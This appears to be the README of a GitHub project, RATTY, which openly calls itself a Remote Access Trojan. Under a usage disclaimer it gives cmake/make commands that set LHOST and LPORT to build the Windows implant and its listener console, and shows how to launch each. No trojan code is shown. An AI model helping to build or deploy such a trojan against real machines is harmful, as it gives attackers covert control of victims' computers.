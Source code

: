 # :rat: RATTY :cheese:
[Remote Access Trojan Thank-You]
## About
The rats are growing hungry in the Winter blizzards and thirsty in the Summar heat-waves. Beware, they just might be in your walls, gathering, foraging, populating... :cheese::rat:

## ⚠️Responsible Usage Notice
This project is intended for educational and authorized security testing purposes only.
Unauthorized use of this program against systems you do not own or have explicit permission
to test is strictly prohibited and may be illegal. Always obtain proper authorization before
running any form of penetration testing or exploitation activity. The creator assumes no
liability for misuse or damage caused by improper or unlawful use of this software.

## Prepare RATTY :rat:
```bash
mkdir build
cd build
LHOST=127.0.0.1 LPORT=4444 cmake ../ && make ratty
```
To activate RATTY, simply execute the exe on a Windows Host via:
```powershell
.\ratty.exe
```

## Prepare RATTY Handler :computer:
```bash
mkdir build
cd build
LHOST=127.0.0.1 LPORT=4444 cmake ../ && make ratconsole
```
To use the Handler:
```powershell
.\ratconsole.exe -l 127.0.0.1 -p 4444
```